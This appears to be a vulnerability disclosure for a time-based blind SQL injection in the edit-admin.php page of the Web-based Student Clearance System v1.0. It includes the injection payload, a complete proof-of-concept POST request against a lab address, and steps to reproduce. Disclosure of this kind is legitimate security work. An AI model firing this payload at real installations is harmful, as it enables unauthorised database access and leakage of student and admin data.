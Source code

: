 # Vulnerability Description

[The Web-based Student Clearance System v1.0](https://www.sourcecodester.com/php/15627/web-based-student-clearance-system.html) was discovered to contain a SQL injection vulnerability via the edit-admin.php. It is an open source project from [https://www.sourcecodester.com/](https://www.sourcecodester.com/). This vulnerability can lead to database information leakage.

1. Bug Submitter: Tr0e
  
2. vendors: [Web-Based Student Clearance System in PHP Free Source Code](https://www.sourcecodester.com/php/15627/web-based-student-clearance-system.html);
  
3. The program is built using the xmapp/v3.3.0 and PHP/8.1.10 version;
  
4. Vulnerability location: /student_clearance_system_Aurthur_Javis/admin/edit-admin.php?id=4
  

# Vulnerability Verification

[+] Payload:

```java
4'and(select*from(select+sleep(2))a/**/union/**/select+1)='
```

POC：

```js
POST http://192.168.0.111:91/student_clearance_system_Aurthur_Javis/admin/edit-admin.php?id=4'and(select*from(select+sleep(2))a/**/union/**/select+1)=' HTTP/1.1
Host: 192.168.0.111:91
Content-Length: 467
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.111:91
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryRRTZDK5qF7Ojo2Pz
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.111:91/student_clearance_system_Aurthur_Javis/admin/edit-admin.php?id=4
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=rbcvgagjbbad1bbrbb62nukgmc
Connection: close

------WebKitFormBoundaryRRTZDK5qF7Ojo2Pz
Content-Disposition: form-data; name="txtfullname"

EKE, EMMANUEL EFA-EVAL
------WebKitFormBoundaryRRTZDK5qF7Ojo2Pz
Content-Disposition: form-data; name="txtemail"

11112222
------WebKitFormBoundaryRRTZDK5qF7Ojo2Pz
Content-Disposition: form-data; name="cmddesignation"

Admin
------WebKitFormBoundaryRRTZDK5qF7Ojo2Pz
Content-Disposition: form-data; name="btnedit"


------WebKitFormBoundaryRRTZDK5qF7Ojo2Pz--
```

## How to verify

Build the vulnerability environment according to the steps provided by the source code author and execute the poc provided above.

The vulnerability is located at the "User Management - Users Record - Admin Record - Action - Edit" function, you shuold inserts Payload when you edit User Profile，as shown in the following figure：
![image](https://user-images.githubusercontent.com/42080954/194559271-51d6d5ce-fb00-4f18-ab1c-22cdca39cdcc.png)
![image](https://user-images.githubusercontent.com/42080954/194559487-a552942b-d307-4ea5-9c66-60c112d99f8d.png)


